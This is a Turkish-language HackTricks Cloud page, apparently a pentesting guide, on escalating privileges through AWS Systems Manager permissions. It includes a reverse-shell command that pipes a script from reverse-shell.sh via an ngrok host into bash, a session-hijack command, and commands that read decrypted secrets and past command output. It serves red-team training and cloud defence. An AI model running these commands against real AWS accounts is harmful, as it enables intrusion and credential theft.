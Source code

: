 # AWS - SSM Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'i **takip edin**.
* Hacking hilelerinizi [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>

## SSM

SSM hakkında daha fazla bilgi için:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-ec2-ebs-elb-ssm-vpc-ve-vpn-tarama/README.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-ec2-ebs-elb-ssm-vpc-ve-vpn-tarama/README.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-ec2-ebs-elb-ssm-vpc-ve-vpn-tarama/README.md)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** iznine sahip bir saldırgan, Amazon SSM Agent çalıştıran örneklerde **komutları yürütebilir** ve içinde çalışan IAM Rolünü **tehlikeye atabilir**.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Potansiyel Etki:** Çalışan SSM Ajanlarına sahip EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:StartSession`

**`ssm:StartSession`** iznine sahip bir saldırgan, Amazon SSM Ajanı çalıştıran örneklerde bir SSH benzeri oturum başlatabilir ve içinde çalışan IAM Rolünü tehlikeye atabilir.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```

{% hint style="danger" %}
Bir oturum başlatmak için **SessionManagerPlugin** yüklü olması gerekmektedir: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potansiyel Etki:** Çalışan SSM Ajanlarına bağlı EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

#### ECS'ye Ayrıcalık Yükseltme

**ECS görevleri** **`ExecuteCommand` etkin** olduğunda, yeterli izinlere sahip kullanıcılar `ecs execute-command` kullanarak konteyner içinde bir komut çalıştırabilir.\
[**Belgelere**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) göre, bu, "exec" komutunu başlatmak için kullandığınız cihaz ile SSM Oturum Yöneticisi ile hedef konteyner arasında güvenli bir kanal oluşturularak yapılır.\
Bu nedenle, `ssm:StartSession` iznine sahip kullanıcılar, bu seçeneği etkinleştirilmiş ECS görevlerinin içinde bir kabuk alabilirler, sadece aşağıdaki komutu çalıştırarak:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../.gitbook/assets/image (55).png>)

**Potansiyel Etki:** `ExecuteCommand` etkinleştirilmiş çalışan görevlere bağlı `ECS` IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** iznine sahip bir saldırgan, **bağlantısı kesilmiş** bir SSM oturum durumunda çalışan Amazon SSM Ajanına **SSH benzeri bir oturumu yeniden başlatabilir** ve içinde çalışan IAM Rolünü **tehdit altına alabilir**.

```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```

**Potansiyel Etki:** SSM Ajanları çalışan ve bağlantısı kesilmiş oturumlara bağlı EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Söz konusu izinlere sahip bir saldırgan, **SSM parametrelerini listeleyebilecek** ve bunları **açık metin olarak okuyabilecektir**. Bu parametrelerde SSH anahtarları veya API anahtarları gibi **hassas bilgileri sık sık bulabilirsiniz**.

```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Potansiyel Etki:** Parametreler içinde hassas bilgiler bulunabilir.

### `ssm:ListCommands`

Bu izne sahip bir saldırgan, gönderilen tüm **komutları** listeyebilir ve umarız ki bunlarda **hassas bilgiler** bulabilir.

```
aws ssm list-commands
```

**Potansiyel Etki:** Komut satırlarında hassas bilgiler bulunabilir.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Bu izinlere sahip bir saldırgan, gönderilen tüm **komutları** ve umarım **hassas bilgileri** içeren çıktıyı okuyarak bulabilir.

```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Potansiyel Etki:** Komut satırlarının çıktısı içinde hassas bilgiler bulunabilir.

### Codebuild

Ayrıca, bir codebuild projesine erişmek için SSM'yi kullanabilirsiniz:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek** paylaşın.

</details>
